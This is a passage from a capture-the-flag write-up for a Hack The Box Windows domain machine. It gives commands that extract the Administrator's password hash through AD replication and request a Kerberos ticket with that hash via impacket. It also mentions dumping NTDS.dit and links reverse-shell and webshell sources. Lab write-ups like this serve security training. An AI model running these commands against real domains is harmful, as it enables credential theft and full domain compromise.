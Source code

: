 ```powershell
Get-ADReplAccount -SamAccountName Administrator -Server 'hathor.windcorp.htb'
```

<img src="https://i.imgur.com/UK24poz.png"/>

But this wasn't working on winrm or on smb

<img src="https://i.imgur.com/wsLepBf.png"/>

We can get a golden ticket for the administrator using impacket's `get-TGT.py`

<img src="https://i.imgur.com/V1aqF2y.png"/>

It gives an error regarding "Clock skew too great", we just need to synchronize the time with domain controller using `ntpdate windcrop` and want the ntp to set to false as it's going to keep updating the time zone

```bash
timedatectl set-ntp false
sudo ntpdate windcorp
```

```bash
sudo python3 /opt/impacket/examples/getTGT.py windcorp.htb/Administrator -hashes :b3ff8d7532eef3
96a5347ed33933030f
```

<img src="https://i.imgur.com/9pB1CoF.png"/>

<img src="https://i.imgur.com/pP4JCsm.png"/>

We can also dump NTDS.dit using the administrator's ticket

<img src="https://i.imgur.com/8hskub1.png"/>

## References
- https://www.mojoportal.com/Forums/Thread.aspx?pageid=5&t=2902~-1
- https://github.com/tennc/webshell/blob/master/Backdoor%20Dev%20Shells/devshell.aspx
- https://github.com/improsec/Get-bADpasswords
- https://github.com/borjmz/aspx-reverse-shell
- https://www.faqforge.com/powershell/get-list-windows-powershell-modules-can-imported/
- https://docs.microsoft.com/en-us/troubleshoot/developer/webapps/aspnet/development/implement-impersonation
- https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking
- https://stackoverflow.com/questions/2033997/how-to-compile-for-windows-on-linux-with-gcc-g
- https://www.youtube.com/watch?v=ob9SgtFm6_g&t=1588s
- https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item
- https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
- https://stackoverflow.com/questions/28625178/bash-certutil-command-not-found
- https://dmfrsecurity.com/2017/01/07/windows-base64-encoding-and-decoding-using-certutil/
- https://docs.microsoft.com/en-us/windows/win32/seccrypto/signtool
- https://stackoverflow.com/questions/31869552/how-to-install-signtool-exe-for-windows-10 
- https://www.praveenc.com/posts/code-signing-on-windows/
- https://eternallybored.org/misc/netcat/
- https://www.youtube.com/watch?v=ob9SgtFm6_g&t=1973s&ab_channel=IppSec
- https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/
- https://techdirectarchive.com/2020/04/07/how-to-synchronizing-linux-system-clock-with-a-network-time-protocol-ntp-server/
- https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/
